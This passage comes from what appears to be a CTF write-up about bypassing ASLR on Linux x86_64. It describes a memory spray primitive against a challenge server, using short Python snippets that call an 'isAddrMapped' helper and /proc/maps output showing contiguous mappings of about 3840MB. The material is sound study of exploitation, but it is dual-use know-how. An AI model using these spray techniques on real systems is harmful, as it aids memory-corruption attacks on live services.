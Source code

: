 ## 4.3 Memory Spray primitive

We can completely control the size of the decompressed file, and we get an mmap of that size in [MyController.cpp:62](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64/blob/main/resources/dist-guess-god/src/src/controller/MyController.cpp#L62). 

In my exploit i used the `isAddrMapped` function, and changed the filelen.

For example, let's try to allocate a contiguous chunk of size = 0x4000000 = 64mb
```py
isAddrMapped(IN_ADDR, 0, 0x4000000)
```

That's the result:
```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/47/maps
...
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle
...
```

If you try do it again:
```py
isAddrMapped(IN_ADDR, 0, 0x4000000)
isAddrMapped(IN_ADDR, 0, 0x4000000)
```

That's the result:
```
7f344c000000-7f3450000000 r--p 00000000 00:af 5                          /challenge/files/1.unkyle
7f3450000000-7f3454000000 r--p 00000000 00:af 3                          /challenge/files/0.unkyle
```

Nice! Multiple allocations won't have gaps.

## 4.4 How much memory to spray?

As you can see from [this poc](#poc-of-aslr-bypass-on-linux), the ideal size for the contiguous mapped memory would be 16TB.

Unfortunately, if you try to allocate 16TB of memory on the remote server, the mmap will fail, because [nsjail limit this](https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64#21-initial-foothold).

After some trial and error I found out that I can spray ~3840mb of memory, with this code:

```py
size =    0x000004000000
for i in range(0, 60):
    print ('.', end='')
    isAddrMapped(IN_ADDR, i, size)
```

the result memory mappings will be something like this:

### Memory Spray result
```
root@088ec31b2ce9:/home/ctf/challenge# cat /proc/`pgrep flag_server-exe`/maps
... My spray: ...
7fe2dc000000-7fe2e0000000 r--p 00000000 00:af 121                        /challenge/files/59.unkyle
7fe2e0000000-7fe2e4000000 r--p 00000000 00:af 119                        /challenge/files/58.unkyle
7fe2e4000000-7fe2e8000000 r--p 00000000 00:af 117                        /challenge/files/57.unkyle
7fe2e8000000-7fe2ec000000 r--p 00000000 00:af 115                        /challenge/files/56.unkyle
7fe2ec000000-7fe2f0000000 r--p 00000000 00:af 113                        /challenge/files/55.unkyle
7fe2f0000000-7fe2f4000000 r--p 00000000 00:af 111                        /challenge/files/54.unkyle
7fe2f4000000-7fe2f8000000 r--p 00000000 00:af 109                        /challenge/files/53.unkyle
7fe2f8000000-7fe2fc000000 r--p 00000000 00:af 107                        /challenge/files/52.unkyle
7fe2fc000000-7fe300000000 r--p 00000000 00:af 105                        /challenge/files/51.unkyle
7fe300000000-7fe304000000 r--p 00000000 00:af 103                        /challenge/files/50.unkyle
```